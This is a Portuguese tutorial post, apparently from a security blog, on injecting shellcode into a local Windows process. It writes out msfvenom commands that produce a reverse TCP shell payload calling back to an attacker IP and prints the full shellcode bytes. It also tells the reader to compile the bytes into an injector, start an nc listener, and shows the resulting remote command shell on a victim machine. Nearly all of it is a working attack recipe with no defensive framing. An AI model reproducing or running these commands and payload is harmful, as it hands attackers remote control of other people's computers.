 ```yaml
---
title: Injeção de Código - Injection Local Process
category: post
---
```


## Windows CreateRemoteThread Shellcode Injection and Execution in Local Process

Esse é o clássico Shellcode Injection que fazemos no módulo/processo local do próprio binário compilado com os 
bytes do shellcode. 

Quando o shellcode for executado com sucesso, ganhamos acesso na máquina alvo; conforme faremos na prática a seguir:

---


### Step 1 

- Gerar os bytes do shellcode para Windows x86, apontando para o IP do computador que vai ganhar o acesso.

		msfconsole
		msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d


- Ou Gerar os bytes do shellcode para Windows x64, apontando para o IP do computador que vai ganhar o acesso.

		msfconsole
		msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d


- Após rodar o comando acima com sucesso, teremos os bytes do shellcode na tela. Exemplo :

		unsigned char buf[] =
		"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
		"\xfb\x25\xeb\xf6\x83\xee\xfc\xe2\xf4\x07\xcd\x69\xf6\xfb\x25"
		"\x8b\x7f\x1e\x14\x2b\x92\x70\x75\xdb\x7d\xa9\x29\x60\xa4\xef"
		"\xae\x99\xde\xf4\x92\xa1\xd0\xca\xda\x47\xca\x9a\x59\xe9\xda"
		"\xdb\xe4\x24\xfb\xfa\xe2\x09\x04\xa9\x72\x60\xa4\xeb\xae\xa1"
		"\xca\x70\x69\xfa\x8e\x18\x6d\xea\x27\xaa\xae\xb2\xd6\xfa\xf6"
		"\x60\xbf\xe3\xc6\xd1\xbf\x70\x11\x60\xf7\x2d\x14\x14\x5a\x3a"
		"\xea\xe6\xf7\x3c\x1d\x0b\x83\x0d\x26\x96\x0e\xc0\x58\xcf\x83"
		"\x1f\x7d\x60\xae\xdf\x24\x38\x90\x70\x29\xa0\x7d\xa3\x39\xea"
		"\x25\x70\x21\x60\xf7\x2b\xac\xaf\xd2\xdf\x7e\xb0\x97\xa2\x7f"
		"\xba\x09\x1b\x7a\xb4\xac\x70\x37\x00\x7b\xa6\x4d\xd8\xc4\xfb"
		"\x25\x83\x81\x88\x17\xb4\xa2\x93\x69\x9c\xd0\xfc\xda\x3e\x4e"
		"\x6b\x24\xeb\xf6\xd2\xe1\xbf\xa6\x93\x0c\x6b\x9d\xfb\xda\x3e"
		"\xa6\xab\x75\xbb\xb6\xab\x65\xbb\x9e\x11\x2a\x34\x16\x04\xf0"
		"\x7c\x9c\xfe\x4d\x2b\x5e\xf1\x54\x83\xf4\xfb\x21\x39\x7f\x1d"
		"\x4f\xfb\xa0\xac\x4d\x72\x53\x8f\x44\x14\x23\x7e\xe5\x9f\xfa"
		"\x04\x6b\xe3\x83\x17\x4d\x1b\x43\x59\x73\x14\x23\x93\x46\x86"
		"\x92\xfb\xac\x08\xa1\xac\x72\xda\x00\x91\x37\xb2\xa0\x19\xd8"
		"\x8d\x31\xbf\x01\xd7\xf7\xfa\xa8\xaf\xd2\xeb\xe3\xeb\xb2\xaf"
		"\x75\xbd\xa0\xad\x63\xbd\xb8\xad\x73\xb8\xa0\x93\x5c\x27\xc9"
		"\x7d\xda\x3e\x7f\x1b\x6b\xbd\xb0\x04\x15\x83\xfe\x7c\x38\x8b"
		"\x09\x2e\x9e\x1b\x43\x59\x73\x83\x50\x6e\x98\x76\x09\x2e\x19"
		"\xed\x8a\xf1\xa5\x10\x16\x8e\x20\x50\xb1\xe8\x57\x84\x9c\xfb"
		"\x76\x14\x23";


### Step 2

- Abrir o código fonte que já montei referente a arquitetura que geramos o shellcode acima.

		injectlocal.cpp

- Depois de copiar os bytes gerados pelo msfvenom no Step 1, devemos colar esses bytes no conteúdo da variável 
_unsigned char shellcode[] = ""_ do código fonte , e depois compilar-lo.

- Ao compilar o software com sucesso teremos os executáveis prontos para uso.

		injectlocal.exe


### Step 3


- Abrir a porta que colocamos como argumento no msfvenom para gerar o shellcode, no computador que tem o IP que também colocamos como argumento no msfvenom para gerar o shellcode 

		nc -vlp 1234


- Então assim que o binário que injeta o shellcode for executado, devemos ganhar o acesso no alvo.

		listening on [any] 1234 ...
		192.168.10.109: inverse host lookup failed: Host name lookup failure
		connect to [192.168.10.113] from (UNKNOWN) [192.168.10.109] 49173
		Microsoft Windows [vers�o 6.1.7600]
		Copyright (c) 2009 Microsoft Corporation. Todos os direitos reservados.

		C:\Users\VBOX_7\Desktop>



